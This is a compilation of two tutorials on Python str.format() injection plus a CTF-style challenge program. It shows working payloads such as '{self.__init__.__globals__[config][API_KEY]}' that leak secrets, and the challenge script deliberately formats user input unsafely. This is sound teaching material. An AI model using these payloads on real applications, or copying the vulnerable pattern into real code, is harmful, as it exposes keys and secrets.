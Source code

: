 Vulnerability in str.format() in Python

##
#
https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/#
#
##



Prerequisites: Python – format() function

str.format() is one of the string formatting methods in Python3, which allows multiple substitutions and value formatting. This method lets us concatenate elements within a string through positional formatting. It seems quite a cool thing. But the vulnerability comes when our Python app uses str.format in the user-controlled string. This vulnerability may lead attackers to get access to sensitive information.

Note: This issue has been reported here
str format vulnerability

So how come this becomes a vulnerability. Let’s see the following example

Example:
```
# Let us assume this CONFIG holds some sensitive information
CONFIG = {
    "KEY": "ASXFYFGK78989"
}
  
class PeopleInfo:
    def __init__(self, fname, lname):
        self.fname = fname
        self.lname = lname
  
def get_name_for_avatar(avatar_str, people_obj):
    return avatar_str.format(people_obj = people_obj)
  
  
# Driver Code
people = PeopleInfo('GEEKS', 'FORGEEKS')
  
# case 1: st obtained from user
st = input()
get_name_for_avatar(st, people_obj = people)

```

Case 1:
when user gives the following str as input

Avatar_{people_obj.fname}_{people_obj.lname}
Output:

Avatar_GEEKS_FORGEEKS
Case 2:
when user inputs the following str as input
```
{people_obj.__init__.__globals__[CONFIG][KEY]}
```

Output:
```
ASXFYFGK78989
```

This is because string formatting functions could access attributes objects as well which could leak data. Now a question might arise. Is it bad to use str.format()?. No, but it becomes vulnerable when it is used over user-controlled strings.

Last Updated : 08 Jun, 2020





##
##

Python format string vulnerabilities
 March 24, 2021  3-minute read
 research • poc
 python • format • string • exploit
Table of contents :
What are Python’s format strings
Example of a vulnerable API
Exploiting format strings
Additional references
What are Python’s format strings
The .format() string method was introduced in Python 3 was later also added to Python 2.7. Let’s see an example :

>>> print("I like {} and {}".format("Python","Pizza"))
"I like Python and Pizza"
Even though python format strings can be very useful in scripts, they should be used with caution as they can be prone to vulnerabilities. We will explore this more in depth in the Exploiting format strings part.

Example of a vulnerable API
Here is an example of an API where a user can render user data to HTML using it’s own template and format strings :

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(title=title, text=text))

if __name__ == '__main__':
    a = API(config[API_KEY])

    templateHTML = """<!DOCTYPE html>
<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>{title}</title>
    </head>
    <body>
        <p>{text}</p>
    </body>
</html>"""

    text = "This is text !"
    print(a.renderHTML(templateHTML, "Vuln web render App", text))
( Download source )

When the user uses this API to render data to HTML with legitimate templates, it would create this :

<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>Vuln web render App</title>
    </head>
    <body>
        <p>This is text !</p>
    </body>
</html>
But what would happen if a malicious user wants to mess up with the format string placeholders inside the template ? We’ll see this in the next section.

Exploiting format strings
We will try to inject payloads int format string placeholders of the template. I made a simple script taking arguments and executing API’s render function :

Usage :

$ ./sandbox.py
Usage : python3 ./sandbox.py TEMPLATE CONTENT
Source code :

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(self=self, title=title, text=text))


if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = API(config['API_KEY'])
        print(a.renderHTML(sys.argv[1], "Vuln web render App", sys.argv[2]))
( Download source )
```
Let’s try this app with a legitimate example :

$ ./test.py "<p>{text}</p>" "Wow such string"
<p>Wow such string</p>
But format string are great in python ! You can access object properties directly in the format string. In the case of a class, this can be really useful to access a specific value in the class. For example the format string {person.username} would retreive the field username of the following “Person” class :

```
class Person(object):
    def __init__(self, username):
        super(Person, self).__init__()
        self.username = username
```

In our case, we can exploit this to access other attributes, such as __init__ :

$ ./sandbox.py "<p>{text.__init__}</p>" "Wow such string"
<p><method-wrapper '__init__' of str object at 0x7f8f10a3b9f0></p>
 
But we can also use this to get the script global context, using __globals__ after __init__ :
 
```
$ ./sandbox.py "<p>{self.__init__.__globals__}</p>" "Wow such string"
<p>{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f1385ac5f40>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': './sandbox.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'config': {'API_KEY': '212817d980b9a03add91e5814d02'}, 'API': <class '__main__.API'>, 'a': <__main__.API object at 0x7f1385b31490>}</p>
 ```
 
 
Continuing like this we can access the API_KEY :

$ ./sandbox.py "<p>{self.__init__.__globals__[config][API_KEY]}</p>" "Wow such string"
<p>212817d980b9a03add91e5814d02</p
Additional references
https://docs.python.org/3/library/functions.html#format
Lots of python format string examples : https://pyformat.info/
 
########
 
 CHAL
 
~~~ 
#!/usr/bin/env python3
import secrets
import sys

SECRET = secrets.token_hex()

class Sandbox:

    def ask_age(self):
        self.age = input("How old are you ? ")
        self.width = input("How wide do you want the nice box to be ? ")

    def ask_secret(self):
        if input("What is the secret ? ") == SECRET:
            print("You found the secret ! I thought this was impossible.")
            sys.exit(0)
        else:
            print("Wrong secret")

    def run(self):
        for _ in range(100):
            self.ask_age()
            to_format = f"""
Printing a {self.width}-character wide box:
[Age: {{self.age:{self.width}}} ]"""
            print(to_format.format(self=self))
            self.ask_secret()
        sys.exit(1)

Sandbox().run()
```
